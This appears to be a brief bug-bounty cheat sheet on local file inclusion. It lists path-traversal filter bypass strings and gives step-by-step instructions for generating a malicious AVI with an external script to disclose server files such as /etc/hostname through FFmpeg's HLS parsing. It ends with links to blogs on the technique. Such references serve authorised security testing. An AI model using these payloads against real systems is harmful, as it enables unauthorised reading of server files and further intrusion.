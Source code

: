 ## LFI

**Filter Bypass**

```
../\
```

```
..\/
```

```
/..
```

```
\/..
```

```
/%5c..
```

**FFmpeg Local File Disclosure**

This [script](https://github.com/neex/ffmpeg-avi-m3u-xbin/blob/master/gen_xbin_avi.py) by @neex can be used to disclose local files on FFmpeg hosts which parse externally-referencing [HLS playlists](https://ffmpeg.org/ffmpeg-formats.html#hls-2).

_Steps to reproduce_

1. Please download the script from @neex to your "attacker" instance
2. Execute the script with your desired parameters: `python3 gen_xbin_avi.py file:///etc/hostname bugbounty.avi`
3. Upload the generated AVI file to your target site (e.g. within a 'video upload page')
4. The target may process the malicious HLS inclusion with FFmpeg on the server-side.
5. Play the uploaded AVI via the target site. If successful, your desired file will be disclosed within the video.

Alternative scripts exist which may generate different HLS formats or lead to the desired file being disclosed in a different manner.

**Blogs**
* http://pastie.org/840199
* http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
* http://www.notsosecure.com/folder2/2010/08/20/lfi-code-exec-remote-root/?utm_source=twitterfeed&utm_medium=twitter
* http://labs.neohapsis.com/2008/07/21/local-file-inclusion-%E2%80%93-tricks-of-the-trade/
* http://www.digininja.org/blog/when_all_you_can_do_is_read.php

**LFI to RCE**
https://ibb.co/ntk0mR
